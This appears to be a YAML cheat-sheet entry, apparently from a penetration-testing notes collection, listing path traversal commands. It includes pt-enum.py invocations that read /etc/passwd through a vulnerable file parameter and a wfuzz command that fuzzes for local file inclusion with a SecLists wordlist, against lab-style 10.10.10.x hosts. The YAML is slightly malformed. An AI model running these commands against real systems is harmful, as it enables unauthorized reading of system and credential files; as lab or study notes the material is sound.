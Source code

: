 ```yaml
---
functions:
  enumeration:
    - description: Use a script to automatically exploit a path traversal vulnerability
                   and output results
      code: |
        pt-enum.py --base-url "http://10.10.10.194/news.php?file=" --path "../../../.." --file "/etc/passwd"
        pt-enum.py --base-url "http://10.10.10.194/news.php?file=" --path "../../../.." --list /home/unknown/Documents/Scripts/path-traversal/linux

    - description: Use wffuz to grab files form path path_traversal
    	wfuzz -u http://10.10.10.249/admin../admin_staging/index.php\?page\=../../../../../../../../..FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

    	hide invalid entries: --hc=15349  (--hc/hl/hw/hh)  code/lines/words/chars

resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/pt-enum.py
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/path_traversal_linux
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/path_traversal_windows
---
```

